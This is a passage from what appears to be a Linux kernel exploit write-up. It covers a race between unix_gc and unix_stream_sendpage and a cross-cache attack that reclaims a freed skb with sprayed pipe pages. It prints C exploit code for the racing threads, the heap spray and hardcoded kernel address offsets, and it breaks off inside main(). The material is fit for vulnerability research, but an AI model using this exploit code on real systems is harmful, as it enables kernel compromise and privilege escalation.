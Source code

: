 ## Race between unix_gc with unix_stream_sendpage
Init two threads to race between unix_gc with unix_stream_sendpage.

Function `trigger_unix_stream_sendpage` in our exploit code will setup a timeout in nanosecond and use system call splice to insert a pipe page to unix_socket.
It will call unix_stream_sendpage to reach our vulnerable function.
```C
void *trigger_unix_stream_sendpage(void *x)
{
	set_cpu(0);
	// setup a certain timeout nanosecond
	struct itimerspec new = {.it_value.tv_nsec = timeout};
	// Send signal to trigger_unix_gc_thread
	write(sync_job[1], "H", 1);
	SYSCHK(timerfd_settime(tfd, TFD_TIMER_CANCEL_ON_SET, &new, NULL));
	splice(datapipe[0], 0, A, 0, 0x1000, 0);
	close(datapipe[0]);
	return NULL;
}

```
Function `trigger_unix_gc_thread` in our exploit code will trigger unix_gc by release a unused unix socket.
It will detect our prepared refcount circle and clear these sk_receive_queue.
```C
void *trigger_unix_gc_thread(void *x)
{
	set_cpu(1);
	int s = socket(AF_UNIX, SOCK_STREAM, 0);
	read(sync_job[0], &x, 1);
	// Release a unix socket will trigger unix_gc
	close(s);
	return NULL;
}
```

## Reclaim SKB with pipe page buffer
We need to perform cross cache attack to reclaim skb with our own controlled data. This time we use [pipe page buffer](https://elixir.bootlin.com/linux/latest/source/fs/pipe.c#L498) to reclaim the skb and control the skb value.
It will performed by `spray_pipe_page_thread` in seperate thread.

```c
void *spray_pipe_page_thread(void *x)
{
	set_cpu(1);
	// After unix_gc clean skb, this thread will wakeup and start spray pipe page.
	read(signalpipe[0], buf, 1);
	for (int i = 0; i < 0x100; i++)
		for (int j = 0; j < 0x10; j++)
			write(spray_pipe[i][1], spray_data, 0x1000);

	return NULL;
}

#define FIXED_OFFSET 0x140000000
#define PAGE_OFFSET_BASE (LEAKED_KHEAP - FIXED_OFFSET)
#define TARGET_PHYS_ADDR 0x82e2380
#define PHYS_ADDR_MSG (PAGE_OFFSET_BASE + TARGET_PHYS_ADDR) // guessed msg_msg address

// spray data
int main(...) {
    ...
    // Prepare spray data for reallocate freed skb as pipe page data.
```